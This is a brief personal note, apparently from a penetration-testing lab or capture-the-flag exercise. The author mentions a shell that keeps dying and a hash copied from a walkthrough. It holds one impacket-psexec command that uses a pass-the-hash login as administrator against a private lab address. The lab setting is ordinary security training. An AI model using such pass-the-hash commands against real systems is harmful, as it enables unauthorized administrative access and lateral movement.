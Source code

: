 shell keeps dying whenever trying to file transfer, ripping the hash from the walkthrough


```bash
impacket-psexec administrator@172.16.1.11 -hashes :8ab4098640a136722461728dc38faee2
```


![[Pasted image 20240531141905.png]]

